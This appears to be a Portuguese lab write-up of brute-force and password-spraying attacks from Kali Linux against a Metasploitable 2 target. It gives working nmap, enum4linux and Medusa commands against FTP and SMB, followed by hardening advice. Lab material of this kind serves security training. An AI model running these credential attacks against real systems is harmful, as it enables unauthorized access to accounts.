




# Laboratório : Brute Force & Password Spraying

## Descrição do Projeto
Este projeto simula uma auditoria de segurança em ambiente controlado. O objetivo foi identificar e explorar vulnerabilidades de autenticação nos protocolos FTP e SMB, utilizando o ecossistema Kali Linux contra o alvo Metasploitable 2.

## Configuração do Ambiente
- **Atacante:** Kali Linux 
- **Vítima:** Metasploitable 2 (IP: 192.168.56.101).
- **Ferramentas:** Nmap, Medusa, Enum4linux.

## Metodologia e Execução

### 1. Reconhecimento (Footprinting)
Varredura inicial para mapear serviços ativos e versões de software.
```
nmap -sV 192.168.56.101
```


### 2. Ataque de Dicionário (FTP)
Teste de força bruta no serviço FTP (porta 21) para validar a fragilidade de credenciais padrão.
```
medusa -h 192.168.56.101 -u msfadmin -P senhas.txt -M ftp
```


### 3. Enumeração e Password Spraying (SMB)
Extração de lista de usuários via protocolo SMB e teste de senha comum (borrifação) em múltiplas contas.
```
# Enumeração de Usuários
enum4linux -U 192.168.56.101
```

```
# Password Spraying
medusa -h 192.168.56.101 -U usuarios.txt -p msfadmin -M smbnt
```


### Medidas de Mitigação (Hardening)
- Políticas de Bloqueio (Account Lockout): Bloquear contas após X tentativas de login falhas.
- Senhas Fortes: Implementar políticas de complexidade e troca periódica.
- MFA (Multi-Factor Authentication): Adicionar camada extra de segurança.
- Monitoramento de Logs: Uso de IDS/IPS ou Fail2Ban para identificar ataques automatizados.
